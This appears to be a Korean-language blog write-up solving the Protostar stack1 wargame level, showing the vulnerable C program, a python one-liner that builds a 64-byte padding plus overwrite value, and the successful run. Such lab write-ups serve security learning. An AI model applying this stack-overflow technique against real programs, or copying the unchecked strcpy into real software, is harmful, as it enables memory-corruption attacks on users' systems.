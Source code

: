 ```yaml
---
layout: post
title: "[exploit-exercise] Protostar stack1"
date: 2016-07-02 16:03:10
category: wargame
tags:  [exploit-exercise, protostar]
---
```


[Protostar Stack1 - Exploit Exercises](https://exploit-exercises.com/protostar/stack1/)

>This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.
>
>This level is at /opt/protostar/bin/stack1

<!--more--> 

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

#### 일반적인 경우

```bash
$ ./stack1 A
Try again, you got 0x00000000
$ ./stack1 AAAAA
Try again, you got 0x00000000 
```

#### Exploit

`buffer[64]` 를 채우고 난 뒤에 `0x61626364` 값으로 덮어 쓰면 된다.
python 으로 값을 생성.
VM 에서는 python 실행이 잘 안 되서 host 에서 생성한 다음에...

```bash
$ python -c 'print "A"*64 + "\x64\x63\x62\x61"'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
```

VM 에서는 copy & paste 로 실행...

```bash
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value  
```


